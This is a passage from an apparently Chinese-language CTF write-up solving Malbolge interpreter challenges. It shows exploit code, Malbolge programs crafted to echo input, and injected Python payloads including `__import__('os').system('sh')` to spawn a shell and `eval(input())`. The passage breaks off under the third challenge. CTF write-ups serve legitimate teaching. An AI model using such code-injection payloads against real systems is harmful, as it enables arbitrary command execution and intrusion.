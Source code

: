 ```python
            rr=gr*r+gr*gr*l
    print(i)

conn.sendline(" ".join([str(i) for i in v]))
conn.interactive()
```

### Malbolge I: Gluttony
构造一个类似 echo 的 opcode

```
op*/</</</</</</</</</</</</</</</</</</</</</</</</</</</</<
```

转换为Malbolge标准形式

```
D=%r_p]n[lYjWhUfSdQbO`M^K\IZGXEVCTAR?P=N;L9J7H5F3D1B/@->+<):'
```

然后就可以任意输入要执行的代码了，比如

```python
__import__("os").system("sh")
```

### Malbolge II: Greed

这次不能用stdin了，同时还把crazy操作的函数改为每次随机的映射表。用这里的生成器https://github.com/wallstop/MalbolgeGenerator，同样修改crazyOperation函数，再尝试生成即可。注意到有一些crazy表比较容易生成，所以需要多尝试交互几次。

比较短的代码应该更容易生成，因此使用

```
eval(input())
```

当时成功的数据如下

```
crazy = [[2, 1, 1], [0, 1, 0], [2, 0, 2]] 
DCB$@?!=65498x054-,1q).-m%*j"!~}$#"!~`|{tsxqYonmrqSRhmledcKaf_d]b[ZYAWV>T<;W9U7ML4POHMLKDhHG
FE>b%A:">~<;43W1w/u-2+*)on&l$ji!g%|dzya`|utyxqvunVUkpinglNdibg`_dc\a`B^@VU=SRWVUNSRQ32H0LEJC
g*@EDC<;:"!~<;:98xUv43,1qpo',+k)"!&%e{"!a`v{z\[wYonVrTjohPfkMLba`HGc\DZBX@?U=SRQ9UTSR4PIHGFE
DCB*F?'&%;:"8~6;{z270/43srqp(nm%k#"'&}e{cbx`|{tyrqYutmUkpohmONjLhJI_^FE[`_AWV[T<R:P87M5Q3OHM
FEi,BAe?cC%$#?>7<5{3yxw/432r0p(n&+*#('gf|{"ya`|{]sxqYuWsrTjohgOkdcKJ`edc\[C_XW?UT<X:P8TMRKoI
1M/KJ,+GF(DC%$:"8=<;{3WxU5.-s+*)(-&l$j"'&}e{zyxwv^tyrqpuWVUkSRhPfkMLbaIeGF\DC_A@VUZSR:9ONSL4
3ON0LK-C+*@(>&BA@9!7<|43y7w5.32+*).-,+*j(h&%$dzbaw_{]srZvoWsrkjohgfkjcba`eG]ba`YA]\>=SX:VU7S
RKPIH0FKJC+*F?>=<A@"8=<;{X8VC 
```

### Malbolge III: Wrath

同样用生成器https://github.com/wallstop/MalbolgeGenerator，修改 findString 函数的 count 阈值，可以搜到更短的Malbolge代码，我改到了 10 

依然用
